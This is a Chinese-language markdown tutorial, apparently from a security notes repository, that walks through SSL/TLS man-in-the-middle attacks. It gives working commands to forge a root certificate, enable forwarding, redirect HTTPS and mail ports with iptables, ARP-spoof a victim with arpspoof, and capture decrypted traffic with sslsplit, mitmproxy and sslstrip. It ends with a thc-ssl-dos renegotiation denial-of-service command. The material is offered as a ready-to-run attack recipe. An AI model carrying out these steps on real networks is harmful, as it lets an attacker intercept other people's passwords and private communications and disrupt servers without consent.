





# SSL中间人攻击

## 0x01 中间人攻击原理
### 简单描述
> 攻击者告诉受攻击机自己是网关,同时Nat转发受攻击给自己的信息给网关.

### 图解
  

图是盗的,勿怪,图示很赞.

## 0x02 实现中间人攻击手段
> 为实现攻击者插入到被攻击者和服务器通信链路中的手段
+ ARP欺骗
+ DHCP
> 自己搭建一个DHCP服务器,如果攻击者的DHCP服务器与被攻击者的距离比网关与被攻击者的距离近才可行,会有一个接受先响应者的就近原则.
+ 通过ICMP, STP, OSPF协议攻击
> 欺骗ICMP重定向, STP的根, OSPF的默认路由
+ 理论可行的(操作前提是先控制被攻击者):
> 修改被攻击者网关, 修改被攻击者DNS, 修改被攻击者hosts

## 0x03 ssl攻击前提
+ 客户端信任伪造证书
> 客户端禁止显示证书错误, 被攻击者自己点击信任, 攻击者控制了客户端,强迫信任证书.
+ 攻击者控制了证书颁发机构,拿到合法证书(当然,也可以合法的花钱购买)

## 0x04 攻击演示
### split演示
1. 伪造证书

  ```
  生成证书私钥:
  openssl genrsa -out ca.key 2048

  利用私钥,生成根证书
  openssl req -new -x509 -days 999 -key ca.key -out ca.crt
  这里需要填写信息,可以仿照真实证书信息填写.
  ```

2. 启动路由

  ```
  sysctl -w net.ipv4.ip_forward=1
  或
  echo 1 > /proc/sys/ipv4/ip_forward
  ```

3. 配置iptables nat表

  ```
  iptables -t nat -F #清空

  iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080

  iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443

  iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443 #MSA 

  iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443 #SMTPS 

  iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443 #IMAPS 

  iptables -t nat -A PREROUTING -p tcp --dport 995 -j REDIRECT --to-ports 8443 #POP3S 

  iptables -t nat -L  # 确认
  ```
  
  **注意** 攻击者的80,443, 587等端口不能被其它程序占用.
  
4. arp欺骗
  + 攻击者

  ```
  arpspoof -i eth0 -t 192.168.0.108 -r 192.168.0.1
  ```
  + 被攻击者:

    
  上面是欺骗前的,下面是欺骗后的.

5. `sslsplit`
  #### 简介
  > 透明的ssl/tls中间人攻击工具
  > 对客户端伪造服务器,对服务器伪装客户端
  > 伪装服务器时需要证书
  > 支持ssl/tls加密的smtp, pop3, ftp等通信中间人攻击


```
mkdir -p test/log

sslsplit -D -l connect.log -j /root/test -S /root/test/log -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
```

6. 被攻击者访问HTTPS网站


  
我们这里就点继续访问吧.

  

7. 攻击者可以找到被攻击者传输的内容

  

### mitmproxy演示
同样是端口转发,然后arp欺骗，之后使用ssl透明代理工具

```
iptables -t nat -F

iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080

iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```
 
```
mitmproxy -T --host -w -p 8080 logfile.log
```
如果代理端口是8080可以不写-p,默认.
显示界面,可以上下滑动tab选中其它,q返回.

### sslstrip演示
sslstrip(直接将客户端到中间人之间的流量变为明文)

```
sslstrip -l 8080 -w logfile.txt
默认只抓取post信息
```

## 0x05 SSL/TLS 拒绝服务攻击
主要是利用ssl-renegotiation（如果禁用,下面这个攻击工具就不能直接利用了）, 不断的申请证书。增加服务器负担， 而不是流量式的攻击.一般服务器平均处理300次/秒 ssl握手请求.对smtps, POP3S 等服务一样有效.

```
thc-ssl-dos ip 443 --accept
```
 
